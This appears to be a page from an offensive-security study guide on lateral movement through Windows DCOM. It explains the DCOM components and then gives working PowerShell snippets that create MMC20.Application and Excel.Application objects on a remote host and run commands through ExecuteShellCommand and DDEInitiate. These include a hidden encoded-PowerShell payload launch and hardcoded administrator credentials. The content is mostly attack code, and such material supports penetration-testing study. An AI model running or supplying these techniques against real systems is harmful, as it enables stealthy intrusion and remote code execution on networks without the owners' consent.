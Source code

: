 
## DCOM Lateral Movement

Distributed Component Object Model (DCOM) provides object-oriented remote procedure call capabilities that can be abused for lateral movement. DCOM offers stealthier alternatives to traditional remote execution methods.

### DCOM Architecture

**Component Structure:**
- **DCOM Objects:** Distributed objects accessible over network
- **RPC Communication:** Uses RPC for remote method invocation
- **Authentication:** Supports NTLM and Kerberos authentication
- **Port Usage:** TCP 135 (endpoint mapper) + dynamic high ports

**Common DCOM Objects:**
- **MMC20.Application:** Microsoft Management Console automation
- **Excel.Application:** Microsoft Excel automation object
- **Outlook.Application:** Microsoft Outlook automation object
- **ShellWindows:** Windows Shell automation interface

### MMC20.Application DCOM Lateral Movement

**Basic DCOM Execution:**
```powershell
# Create DCOM object on remote system
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))

# Execute command via DCOM
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc.exe","7")

# Alternative command execution
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"-nop -w hidden -e <base64_payload>","7")
```

**DCOM with Credentials:**
```powershell
# Create credential object
$username = 'Administrator'
$password = 'password123'
$secureString = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString

# DCOM execution with explicit credentials
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"), $credential)
```

### Excel.Application DCOM Lateral Movement

**Excel DCOM Object:**
```powershell
# Create Excel DCOM object
$excel = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application","192.168.50.73"))

# Execute macro or command
$excel.DisplayAlerts = $false
$excel.DDEInitiate("cmd", "/c calc.exe")

# Cleanup
$excel.Quit()
```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname